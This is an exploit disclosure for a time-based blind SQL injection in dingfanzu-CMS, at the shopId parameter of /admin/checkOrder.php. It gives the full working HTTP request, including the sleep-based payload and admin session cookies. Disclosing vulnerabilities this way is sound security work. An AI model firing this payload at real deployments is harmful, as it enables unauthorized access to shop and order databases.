 
# dingfanzu-CMS checkOrder.php shopId SQL-inject

**Exploit Title: dingfanzu-CMS checkOrder.php shopId SQL inject**

**Exploit Author: https://github.com/xiaosguang/cve/blob/main/dingfanzu**

**Vendor Homepage: https://github.com/geeeeeeeek/dingfanzu**

**Software Link: https://github.com/geeeeeeeek/dingfanzu**

**CMSName: dingfanzu-CMS**

**Tested on: Windows, Apache ,Mysql**

**Description**

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection dingfanzu-CMS does not filter the content correctly at the "checkOrder.php" shopId module, resulting in the generation of SQL injection.

The path to the vulnerability：/admin/checkOrder.php?shopId=

    Payload used:

```
GET /admin/checkOrder.php?shopId=0002'+and+sleep(3)--+ HTTP/1.1
Host: dingfanzu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: adminId=16; adminName=liu; shopId=1000; Hm_lvt_9bb651f2bb5622d49b0299560d6559cd=1736094869; HMACCOUNT=74321D4C60CCF393; PHPSESSID=su7te2f8aq0m0hg3ukdbf7ouqm; places=%5B%7B%22shopId%22%3A%221000%22%2C%22shopName%22%3A%22%5Cu9f50%5Cu9c81%5Cu5927%5Cu53a6%22%7D%2C%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%5Cu6e56%5Cu5317%5Cu5927%5Cu53a6%22%7D%5D; userId=aaa1; shopInfo=%7B%22shopId%22%3A%221001%22%2C%22shopName%22%3A%22%E6%B9%96%E5%8C%97%E5%A4%A7%E5%8E%A6%22%2C%22shopPhone%22%3Anull%2C%22shopTip%22%3A%22%E5%93%88%E5%93%88%22%2C%22shopState%22%3A%221%22%2C%22shopIcon%22%3A%221001.jpg%22%2C%22shopBlock%22%3A%22%3F%23A%23B%23%22%2C%22shopFloor%22%3A%22%3F%231%232%233%22%7D; cart1001=%5B%7B%22itemId%22%3A%221685431107987%22%2C%22name%22%3A%22%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu7092%5C%5Cu9e21%5C%5Cu86cb%22%2C%22count%22%3A1%2C%22price%22%3A%2211%22%7D%5D; myInfo=%7B%22userId%22%3A%22aaa1%22%2C%22paymethod%22%3A%220%22%2C%22pn%22%3Anull%2C%22name%22%3Anull%2C%22place%22%3A%22%22%2C%22block%22%3Anull%2C%22floor%22%3Anull%2C%22jifen%22%3Anull%2C%22email%22%3Anull%2C%22price%22%3A%220%22%2C%22orderArrivedTime%22%3A%221%3A30-2%3A00%22%2C%22orderRemark%22%3A%22%22%7D; cart0001=%5B%7B%22itemId%22%3A%221466524398193%22%2C%22name%22%3A%22%5C%5Cu5bab%5C%5Cu4fdd%5C%5Cu9e21%5C%5Cu4e01%5C%5Cu002b%5C%5Cu9e21%5C%5Cu86cb%5C%5Cu7092%5C%5Cu9ec4%5C%5Cu74dc%5C%5Cu002b%5C%5Cu897f%5C%5Cu7ea2%5C%5Cu67ff%5C%5Cu6284%5C%5Cu725b%5C%5Cu8169%22%2C%22count%22%3A1%2C%22price%22%3A%2215%22%7D%5D; shopId=1001; Hm_lpvt_9bb651f2bb5622d49b0299560d6559cd=1736099897
Connection: keep-alive


```



## Proof of Concept

The code does not validate the input data and does not use precompilation technology


![image-20250106015104794](https://github.com/user-attachments/assets/2780414f-c453-4396-b332-3b054080ccb6)



Practical verification

![image-20250106021003686](https://github.com/user-attachments/assets/656d9fab-e036-4d83-9bf0-06a19b94a48c)
